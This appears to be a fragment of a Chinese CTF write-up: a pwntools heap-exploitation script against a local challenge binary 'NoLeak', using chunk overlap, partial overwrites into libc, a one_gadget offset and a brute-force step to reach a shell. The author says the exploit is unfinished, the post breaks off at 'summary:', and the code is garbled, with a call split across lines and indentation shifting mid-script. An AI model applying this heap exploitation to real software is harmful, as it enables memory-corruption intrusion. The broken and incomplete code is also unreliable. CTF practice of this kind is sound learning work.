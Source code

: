 exp:

    from pwn import *
    context.log_level = 'debug'
    context.arch = "amd64"
    io = process('./NoLeak')
    elf = ELF('NoLeak')
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    
    one = 0xe9415
    def add(size,data):
    	io.recvuntil(':')
    	io.sendline('1')
    	io.recvuntil('Size:')
    	io.sendline(str(size))
    	io.recvuntil
    
    (':')
        	io.sendline(data)
        def delete(index):
        	io.recvuntil(':')
        	io.sendline('2')
        	io.recvuntil('Index:')
        	io.sendline(str(index))
        def update(index,size,data):
        	io.recvuntil(':')
        	io.sendline('3')
        	io.recvuntil('Index:')
        	io.sendline(str(index))
        	io.recvuntil('Size:')
        	io.sendline(str(size))
        	io.recvuntil('Data:')
        	io.sendline(data)
        add(0x10,'A'*0x10)#0
        add(0xc0,'B'*0xc0)#1
        add(0x60,'C'*0x60)#2
        add(0xc0,'D'*0xc0)#3
        add(0x60,'E'*0x60)#4
        
        update(1,0xc0,'B'*0x68 + p64(0x61)) #split 1 to 2 chunks
        delete(1)
        delete(3)
        add(0xc0,'')#5 == 2
        delete(2)
        delete(4)
        update(0,0x20,'A'*0x18 + p64(0x71))
        update(4,1,'\x20')
        update(2,1,'\x1d')
        add(0x60,'E'*0x60)#6
        add(0x60,'C'*0x60)#7
        add(0x60,'')#8 --- mlh
        delete(7)
        update(7,8,p64(0))
        update(3,0x10,p64(0)+'\x0d')
        add(0xc0,'D'*0xc0)
        #_______brute force_______#
        update(8,0x13,'A'*3 + '\x15\x94\x0e')
        delete(0)
        delete(0)
        io.interactive()
        gdb.attach(io)
        raw_input()
exp并没有写完，因为我的虚拟机有些问题。。而且还要写暴力破解，懒
总结一下：